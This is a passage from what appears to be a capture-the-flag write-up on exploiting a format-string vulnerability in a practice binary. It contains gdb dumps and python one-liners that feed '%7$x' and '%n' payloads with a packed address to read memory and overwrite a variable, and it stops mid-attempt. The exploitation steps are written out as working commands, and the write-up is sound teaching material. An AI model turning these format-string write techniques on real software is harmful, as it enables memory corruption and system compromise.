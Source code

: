 What it looks like in gdb:
```
gdb-peda$ x/3x 0x7fffffffddb0
0x7fffffffddb0:	0x7824352530303030	0x0000000000bedead
0x7fffffffddc0:	0x000000000000000a
```

Now we can see that we successfully moved the a over to the next segment. Keep in mind that we wanted to pass the hex equivalent for zero instead of any other valyue, because zero is the only value that we could use to take up that space and not change the value of the address. Now that we figured out the format, let's make sure that we can use the format string vulnerabillity to properly read the address (if it can't. then it probably won't work). Judging from the location of where the hex string "bedead" is, we will probably have to use 7 dwords as the distance for our printf exploit since with these binaries 0x7fffffffddb0 usually takes up the spot with a distance of 6 dwords.

```
$	python -c 'print "0000%7$x" + "\xad\xde\xbe\x00\x00\x00\x00\x00"' | ./f2_64 
0000bedead�޾The value of var0 is 0
```

So it looks like it worked. Now let's replace 0xbedead with the actual address of var0, and the x flag with the n flag so we can write to the var0 address.

```
$	python -c 'print "0000%7$n" + "\x5c\x10\x60\x00\x00\x00\x00\x00"' | ./f2_64 
0000\`The value of var0 is 4
```

So we were able to write to the var0 variable and change it's value. However we were only able to write 4 to it. We need to change the value of var0 to 486 in order for it to pass the check. We can do this by adding "%482x" to front of the "%7$n" in order to write an additional 482 bytes to var0. This will probably mess up the formatting but let's try it!

```
$	python -c 'print "0000%482x%7$n" + "\x5c\x10\x60\x00\x00\x00\x00\x00"' | ./f2_64 
Segmentation fault (core dumped)
```

So that didn't work. We see that there are four zeroes in the front, let's try removing those and one digit from the 482 decimal that way if has the same number of characters as the working format.

```
$	python -c 'print "%48x%7$n" + "\x5c\x10\x60\x00\x00\x00\x00\x00"' | ./f2_64 
                                          602021\`The value of var0 is 48

```

So we see we were able to change the value of var0 to 48, which is the same number we gave the %x to write. Now let's try adding an additional decimal to that number so we can finish this level.

```
$	python -c 'print "%482x%7$n" + "\x5c\x10\x60\x00\x00\x00\x00\x00"' | ./f2_64 
Segmentation fault (core dumped)
```

So that didn't work. Let's change the n flag to x so it doesn't crash the program, then ise gdb to figure out the correct format for this using the same breakpoint as before.

Input:
```
$	python -c 'print "%482x%7$x" + "\x5c\x10\x60\x00\x00\x00\x00\x00"' > p2
```
